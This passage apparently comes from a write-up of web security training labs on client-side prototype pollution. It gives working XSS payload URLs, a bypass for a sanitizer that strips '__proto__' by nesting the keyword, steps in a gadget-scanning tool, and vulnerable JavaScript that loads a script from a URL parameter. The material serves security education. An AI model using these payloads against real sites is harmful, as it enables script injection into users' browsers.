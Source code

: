     Which mean we can execute `alert()`
    But as 1 is being added in the code it's producing error on 

    We can solve this by addind and `-` `minus` sign which will retrun 
    ``NaN``

    The final payload looks like.

    ```
    https://0ae8006d03331ec3803435c300f40080.web-security-academy.net/?__proto__.sequence=alert(1)-1
    ```



### Dom invader solution

1. Enable Dom and prototype pollution
2. Potential method of injectio will be detected 
3. Click on scan for gadget 
4. Now click on exploit 
5. It will not triger the XSS as 1 is being added to the `manager.sequence` Here we can add `-` `minus` to the payload and it worked.




## Lab: Client-side prototype pollution via flawed sanitization

1. Inject the following payload 
    ```
    https://0a5700f703981e3e80b73f67006c00bb.web-security-academy.net/?__proto__[foo]=bar
    ```
2. It got blocked as the sanitization has removed ```__proto__```
3. Not inject the following payload 
    ```
    https://0a5700f703981e3e80b73f67006c00bb.web-security-academy.net/?__pro__proto__to__[foo]=bar
    ```

    As ```__proto__``` has been removed rest of the payload becam ```__proto__[foo]=bar```

    Which got injected as checking the console with ```Object.foo``` returns ```bar```

4. Analayzing the javaScript code.
    ```
    async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
        if(config.transport_url) {
            let script = document.createElement('script');
            script.src = config.transport_url;
            document.body.appendChild(script);
        }
        if(config.params && config.params.search) {
            await logQuery('/logger', config.params);
        }
    }
